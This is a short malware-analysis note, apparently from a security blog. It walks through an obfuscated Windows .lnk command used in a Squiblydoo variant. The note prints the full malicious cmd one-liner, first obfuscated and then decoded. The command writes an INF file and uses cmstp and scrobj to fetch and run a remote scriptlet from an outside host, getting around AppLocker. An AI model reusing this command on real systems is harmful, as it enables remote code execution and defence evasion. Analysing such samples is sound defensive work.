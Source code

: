 ```yaml
---
title: Multi-stage Squiblydoo variant
# author: Grace JyL
date: 2020-11-11 11:11:11 -0400
description: 
excerpt_separator: 
categories: [1CyberAttack, MalwareCVE]
tags: [CyberAttack, MalwareCVE]
math: true
# pin: true
toc: true
# image: /assets/img/sample/devices-mockup.png
---
```


[toc]

---


# Multi-stage Squiblydoo variant

---

## step 1

the `.lnk` file has a cmd command but it looks encoded/obfuscated.
- the cmd contains two distinct sections. 
- The first part `creates a “RANDOM.inf” file` 
  - (RANDOM is a random number generated via %random% command)
- the second part starts it using `WMI` and `cmstp`
  - cmstp is often used to bypass Applocker

original

```c
“C:\Windows\System32\cmd.exe” /v /c set “EhWLDvbm34801=Items”
&& call set “EhWLDvbm4162=%EhWLDvbm34801:~4,1%”
&& (for %e in (c) do @set “EhWLDvbm4796=%~e”)
&& !EhWLDvbm4162!et “EhWLDvbm8561=na”
&& !EhWLDvbm4162!et “EhWLDvbm85714=a”
&& !EhWLDvbm4162!et “EhWLDvbm13835=t”
&& !EhWLDvbm4162!et “EhWLDvbm9306=d”
&& call !EhWLDvbm4162!et “EhWLDvbm1449=%ran!EhWLDvbm9306!om%.inf”
&& call !EhWLDvbm4162!et “EhWLDvbm9442=%app!EhWLDvbm9306!ata%\Micro!EhWLDvbm4162!oft\!EhWLDvbm1449!”
&& !EhWLDvbm4162!et “EhWLDvbm59779=.”
&& !EhWLDvbm4162!et “EhWLDvbm19532=“^”
&& (for %r in (“[ver!EhWLDvbm4162!ion]” “!EhWLDvbm4162!ig!EhWLDvbm8561!ture=$Window!EhWLDvbm4162! NT$” “[!EhWLDvbm9306!e!EhWLDvbm4162!tinationdirs]” “2A436=01” “[!EhWLDvbm9306!efaultin!EhWLDvbm4162!tall_singleu!EhWLDvbm4162!er]” “UnRegis!EhWLDvbm13835!erOCXs=47E0” “!EhWLDvbm9306!elfiles=2A436" “[47E0]” “%11%\%EhWLDvbm55506%crO%EhWLDvbm59234%j,NI,%EhWLDvbm69079%%EhWLDvbm23745%%EhWLDvbm23745%p%EhWLDvbm23092%%EhWLDvbm20494%%EhWLDvbm20494%web2!EhWLDvbm59779!e-fax!EhWLDvbm59779!%EhWLDvbm2079%/gmaps!EhWLDvbm59779!txt” “[2A436]” “!EhWLDvbm1449!” “[!EhWLDvbm4162!!EhWLDvbm13835!rings]” “EhWLDvbm23745=t” “EhWLDvbm69079=h” “EhWLDvbm23092=:” “EhWLDvbm55506=s” “EhWLDvbm20494=/” “EhWLDvbm59234=b” “EhWLDvbm2079=org” “!EhWLDvbm4162!ervicen!EhWLDvbm85714!me=' ‘” “!EhWLDvbm4162!hortsvcn!EhWLDvbm85714!me=’ ’“) do @e!EhWLDvbm4796!ho %~r)>“!EhWLDvbm9442!
“&& !EhWLDvbm4162!t!EhWLDvbm85714!rt “” /MIN wmi!EhWLDvbm4796! proce!EhWLDvbm4162!s call !EhWLDvbm4796!rea!EhWLDvbm13835!e “cm!EhWLDvbm4162!!EhWLDvbm13835!p /ns /!EhWLDvbm4162! /su !EhWLDvbm9442!”
```

---

## chop

- `&&` runs the second command on the line when the first command comes back successfully
- `%variablename%` a inbuilt or user set environmental variable
- `!variablename!` a user set environmental variable expanded at execution time, turned with SetLocal EnableDelayedExpansion command

```c
%Items:~4,1%=s

%~e=c


smtp:
Syntax 1 - This is the typical syntax used in a custom installation application. To use this syntax, you must run cmstp from the directory that contains the <serviceprofilefilename>.exe file.

<serviceprofilefilename>.exe /q:a /c:cmstp.exe <serviceprofilefilename>.inf [/nf] [/s] [/u]

Syntax 2
cmstp.exe [/nf] [/s] [/u] [drive:][path]serviceprofilefilename.inf
```



```c
“C:\Windows\System32\cmd.exe” /v /c set “Items=Items” 
&& call set “EhWLDvbm4162=%Items:~4,1%=s” 
&& (for %e in (c) do @set “EhWLDvbm4796=%~e=c”)
&& set “EhWLDvbm8561=na” 
&& set “EhWLDvbm85714=a” 
&& set “EhWLDvbm13835=t” 
&& set “EhWLDvbm9306=d” 
&& call set “EhWLDvbm1449=%random%.inf” 
&& call set “EhWLDvbm9442=%appdata%\Microsoft\%random%.inf” 
&& set “EhWLDvbm59779=.” 
&& set “EhWLDvbm19532=“^” 
&& (for %r in (
    “[version]” 
    “signature=$Windows NT$” 
    “[destinationdirs]” 
    “2A436=01” 
    “[defaultinstall_singleuser]” 
    “UnRegisterOCXs=47E0” 
    “delfiles=2A436" 
    “[“UnRegisterOCXs]” 
    “%11%\scrObj,NI,http://web2.e-fax.org/gmaps.txt” 
    “[“delfiles]” 
    “%random%.inf” 
    “[strings]” 
    “EhWLDvbm23745=t” 
    “EhWLDvbm69079=h” 
    “EhWLDvbm23092=:” 
    “EhWLDvbm55506=s” 
    “EhWLDvbm20494=/” 
    “EhWLDvbm59234=b” 
    “EhWLDvbm2079=org” 
    “servicename=' ‘” 
    “shortsvcname=’ ’“
    ) do @echo %~r)>“%appdata%\Microsoft\%random%.inf“
&& start “” /MIN wmic process call create “cmstp /ns /s /su %appdata%\Microsoft\%random%.inf”

```




---

ref
- [Analysis of a Multi-stage Squiblydoo variant](https://blog.n0p.me/2020/10/2020-10-13-malware-applocker-bypass/#stage-2-updatetxt)





.
